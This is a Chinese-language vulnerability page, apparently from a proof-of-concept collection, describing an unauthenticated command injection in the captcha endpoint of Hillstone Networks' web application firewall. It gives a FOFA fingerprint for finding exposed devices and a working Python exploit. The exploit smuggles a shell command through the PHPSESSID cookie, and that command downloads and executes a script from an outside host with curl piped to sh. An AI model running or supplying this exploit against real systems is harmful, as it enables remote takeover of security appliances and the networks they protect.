 # 山石网科应用防火墙WAF未授权命令注入漏洞

山石网科 Web 应用防火墙（WAF）是专业智能的Web 应用安全防护产品，在Web资产发现、漏洞评估、流量学习、威胁定位等方面全面应用智能分析和语义分析技术，帮助用户轻松应对应用层风险，确保网站全天候的安全运营。

在WAF的验证码页面，存在命令注入漏洞，恶意攻击者可通过构造恶意请求，拼接命令执行任意代码，控制服务器。

**受影响版本:**
5.5R6-2.6.7~5.5R6-2.8.13

## fofa

```yaml
icon_hash="-839455805"
```



## poc

```python
import requests,sys
requests.packages.urllib3.disable_warnings()
session = requests.Session()

target = "https://192.168.247.196/".strip("/")
cmd="curl\x24{IFS}192.168.247.1:9999/cccc|sh"
url = target+"/rest/captcha"
headers = {"Accept":"*/*","User-Agent": "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)","Accept-Language":"en;q=0.9"}
sss=requests.get(url,headers=headers,verify=False)

if "PNG" not  in sss.content:
    print("target not vuln")
    sys.exit()




cookies = {"PHPSESSID":"aaaaaaaaaa%3b"+cmd+"%3bd"}
try:
    response = session.get(target+"/rest/captcha", headers=headers, cookies=cookies,verify=False,timeout=5)
except requests.exceptions.ReadTimeout:
    print("payload work")
    sys.exit()

print("payload send!")
```

